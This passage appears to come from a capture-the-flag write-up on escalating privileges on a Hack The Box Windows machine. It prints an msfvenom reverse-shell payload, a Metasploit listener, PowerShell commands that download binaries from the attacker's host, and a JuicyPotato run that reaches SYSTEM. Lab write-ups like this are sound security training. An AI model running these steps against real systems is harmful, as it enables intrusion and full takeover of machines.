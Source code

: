 ```text
PS C:\Users\userpool\Desktop> systeminfo

Host Name:                 JSON
OS Name:                   Microsoft Windows Server 2012 R2 Datacenter
...

PS C:\Users\userpool\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
...
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

I used `msfvenom` as a quick way to generate a binary that spawns a reverse shell that integrates nicely with the Metasploit framework. After downloading all binaries to the remote machine and setting up Metasploit to listen to incoming connections, I ran JuicyPotato using a [CLSID from the official repository](https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_Server_2012_Datacenter).

On my local machine:

```text
kali@kali:~$ msfvenom -p windows/meterpreter/reverse_tcp lport=4243 lhost=10.10.##.## -f exe > shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of exe file: 73802 bytes
kali@kali:~$ msfconsole -q
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.10.##.##
LHOST => 10.10.##.##
msf5 exploit(multi/handler) > set LPORT 4243
LPORT => 4243
msf5 exploit(multi/handler) > set RHOST json.htb
RHOST => json.htb
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.##.##:4243
```

On the remote machine:

```text
PS C:\Users\userpool\temp> (New-Object System.Net.WebClient).DownloadFile("http://10.10.##.##:8000/p.exe","C:\Users\userpool\temp\p.exe")
PS C:\Users\userpool\temp> (New-Object System.Net.WebClient).DownloadFile("http://10.10.##.##:8000/sh.exe","C:\Users\userpool\temp\sh.exe")
PS C:\Users\userpool\temp> .\p.exe -c "{C49E32C6-BC8B-11d2-85D4-00105A1F8304}" -t * -p "C:\Users\userpool\temp\sh.exe" -l 9090
Testing {C49E32C6-BC8B-11d2-85D4-00105A1F8304} 9090
....
[+] authresult 0
{C49E32C6-BC8B-11d2-85D4-00105A1F8304};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```